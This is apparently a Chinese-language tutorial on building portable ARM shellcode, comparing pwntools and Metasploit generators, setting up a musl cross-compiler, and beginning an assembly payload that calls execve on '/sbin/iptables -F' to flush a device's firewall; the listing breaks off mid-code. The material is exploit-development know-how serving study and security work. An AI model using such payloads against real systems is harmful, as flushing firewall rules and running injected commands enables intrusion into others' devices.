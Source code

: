 # 一种通用的shellcode构建方法

在适配不同版本的arm架构处理器时，总是出现调试环境下测试通过，但真实设备上出现莫名其妙的问题。

为了解决这个问题，决定找一个方法可以很方便地生成执行想要命令的shellcode。

经过实际测试，用musl编译嵌入汇编得到的shellcode兼容性最好。

### 自动生成shellcode

pwntools提供的生成工具：生成的指令兼容性很差，大多数情况都不能执行

msf提供的生成工具：

- 同样面临兼容性问题，不过已经好了非常多，但是有些情况下还是不行
- 并且不能执行随意的指令，提供的linux/armle/exec payload只能执行一个程序，不能设置参数

### 编译器

musl可以很方便地进行交叉编译，编译出来的二进制文件硬件兼容性较好

[https://github.com/richfelker/musl-cross-make](https://github.com/richfelker/musl-cross-make "https://github.com/richfelker/musl-cross-make")

配置

```makefile 
(base) ➜  musl-cross-make git:(master) cat ./config.mak
TARGET = arm-linux-musleabihf
TARGET = arm-linux-musleabi
#TARGET = x86_64-linux-musl
OUTPUT = /opt/cross
```


编译

```bash 
make -j8
make install
```


得到的工具所在目录/opt/cross/bin/arm-linux-musleabi-gcc

### 编译汇编指令

编译shellcode，一种方式是写一个.asm文件，然后通过as、ld命令编译和链接，执行命令如下

- 如下执行execve(\["/sbin/iptables","-F","\x00"])
- 用as和ld进行编译
- 用objcopy拷贝出代码段的字节码，xxd转化为字节形式

```6502 assembly 
 .section .text
    .global _start

_start:
    ldr r0, =0x0000462D     /* '-F' */
    sub sp,sp,#4
    str r0, [sp] /* 栈中: "-F" */

    ldr r0, =0x0073656C     /* 'les\0' */
    ldr r1, =0x62617470     /* 'ptab' */
    ldr r2, =0x692F6E69     /* 'in/i' */
    ldr r3, =0x62732F2F     /* '//sb' */

    sub sp,sp,#4
    str r0, [sp]               /* "les" */
    sub sp,sp,#4
```